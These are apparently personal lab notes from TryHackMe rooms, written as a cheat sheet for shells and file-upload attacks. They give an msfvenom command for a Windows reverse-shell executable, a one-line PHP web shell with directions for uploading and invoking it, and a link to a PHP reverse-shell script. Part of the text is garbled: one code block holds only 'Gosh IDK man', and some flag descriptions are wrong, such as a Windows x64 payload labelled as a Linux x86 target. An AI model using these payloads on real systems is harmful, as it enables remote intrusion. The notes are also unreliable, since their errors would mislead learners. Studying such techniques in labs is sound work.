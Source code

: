 >listener

```
Gosh IDK man 
```
As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z

>https://tryhackme.com/room/introtoshells

---

# msfvenom create payloads

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

- -p    creates payload
- windows/x64/shell/reverse_tcp     reverse shell for a x86 Linux Target
- -f    prints to .exe format
- lhost     listen IP
- lport     target IP

---

# PHP RCE from a File Upload

```
<?php
    echo system($_GET["cmd"]);
?>
```

- add this to a web directory with a filename like 'webshell.php'
- then navigate to the file you uploaded and add to the url your console cmd
  
>e.g. `http://shell.uploadvulns.thm/resources/webshell.php?cmd=id;whoami;ls`

then from here we can upload an RCE

>https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

---

### Client-side filtering and server-side filtering

- Extension Validation
- File Type Filtering
  - MIME validation
  - Magic Number validation
- File Length Filtering
- File Name Filtering
- File Content Filtering

---